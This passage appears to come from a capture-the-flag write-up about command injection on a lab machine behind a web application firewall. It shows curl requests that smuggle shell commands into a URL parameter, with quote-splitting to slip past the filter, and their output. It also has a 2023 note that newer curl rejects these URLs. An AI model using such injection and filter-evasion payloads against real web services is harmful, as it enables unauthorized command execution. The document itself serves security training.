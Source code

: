 Perhaps the 403 is a WAF rejecting me, which is why /bin/l doesn't get
403, but /bin/ls does? But the Server: SuperWAF comes back only in the
empty replies and the functional replies.

Seems like if I can figure out command injection, then I can figure out
how to get that through the WAF...

Adding a space starts to get somewhere...and using " to break things
apart.

*July 2023 Update* - It seems that `curl` behaves a bit differently now,
and won't send these kind of broken payloads any more. Where in 2018,
this worked:



    root@kali# curl "10.10.10.69/sync?opt=' pw''d'"
    /
    bash: -c: option requires an argument

    root@kali# curl "10.10.10.69/sync?opt=' whi''ch cu''rl'"
    /usr/bin/curl
    bash: -c: option requires an argument



In 2023, it does not:



    oxdf@hacky$ curl "10.10.10.69/sync?opt=' pw''d'"
    curl: (3) URL using bad/illegal format or missing URL



No request is even sent. Still, it does work in Burp Repeater:

![](/img/image-20230715061913023.png)
